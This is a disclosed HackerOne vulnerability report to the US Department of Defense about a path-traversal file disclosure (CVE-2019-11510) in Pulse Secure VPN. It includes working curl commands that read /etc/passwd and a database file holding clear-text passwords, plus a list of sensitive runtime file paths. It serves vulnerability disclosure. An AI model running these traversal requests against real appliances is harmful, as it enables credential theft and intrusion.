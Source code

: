 # Pulse Secure File disclosure, clear text and potential RCE

## Report Details
- **Report ID**: 671749
- **URL**: https://hackerone.com/reports/671749
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-12T14:34:14.634Z
- **Disclosed**: 2019-12-02T19:29:23.319Z

## Reporter
- **Username**: alyssa_herrera
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
Pulse Secure has two main vulnerabilities that allow file disclosure and post auth RCE
**Description:**
CVE-2019-11510  is a file disclosure due to some normalization issues in pulse secure. I was able to reproduce this by  grabbing in the etc/passswd. 
https://$hax/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/#

Though the impact of that is very limited, medium to high sec at best. From here we can grab a specific file.

The file /data/runtime/mtmp/lmdb/dataa/data.mdb contains clear context passwords and usernames, when a user logs in from here we can then access the Pulse secure instance. I stopped here due to not wanting to break the rules of engagements but from here I would log in then exploit a Post auth exploit.


Here's a list of files that an attacker would instantly hit
/data/runtime/mtmp/system
/data/runtime/mtmp/lmdb/dataa/data.mdb
/data/runtime/mtmp/lmdb/dataa/lock.mdb
/data/runtime/mtmp/lmdb/randomVal/data.mdb
/data/runtime/mtmp/lmdb/randomVal/lock.mdb
## Impact
Critical 
## Step-by-step Reproduction Instructions
We can only do this  using due to browsers messing up the exploit

curl --path-as-is -k -D- https://████████/dana-na/../dana/html5acc/guacamole/../../../../../../data/runtime/mtmp/lmdb/dataa/data.mdb?/dana/html5acc/guacamole/#

 curl --path-as-is -k -D- https://████████/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/#

 curl --path-as-is -k -D- https://███/dana-na/../dana/html5acc/guacamole/../../../../../../data/runtime/mtmp/lmdb/dataa/data.mdb?/dana/html5acc/guacamole/#

## Product, Version, and Configuration (If applicable)
Pulse Secure
## Suggested Mitigation/Remediation Actions
Patch pulse immediately

## Impact

An attacker will be able to download internal files and specifically target a local file which stores clear text passwords when a user login. This also an attacker to access highly sensitive internal areas and even can perform command execution

## Attachments
No attachments
